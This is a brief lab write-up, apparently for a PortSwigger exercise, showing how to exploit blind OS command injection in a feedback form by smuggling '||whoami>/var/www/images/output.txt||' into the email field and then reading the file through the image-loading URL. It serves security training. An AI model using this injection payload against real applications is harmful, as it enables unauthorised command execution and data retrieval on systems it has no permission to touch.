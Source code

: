 # Blind OS command injection with output redirection

## This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

## `/var/www/images/`

## The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then _use the image loading URL to retrieve the contents of the file_.

## To solve the lab, execute the `whoami` command and retrieve the output.

### step1

whoami > /var/www/images/output.txt

csrf=J60D36lA81EHJ9W3GtrkPVGywDrTS2Se&name=mantoo&email=jemof16874%40jobsfeel.com||whoami>/var/www/images/output.txt||
&subject=how+to&message=hi+i+am+new+in+this

### step2

_use the image loading URL to retrieve the contents of the file_.
open images and intercept
GET /image?filename=22.jpg HTTP/1.1
and change the image name
GET /image?filename=output.txt HTTP/1.1
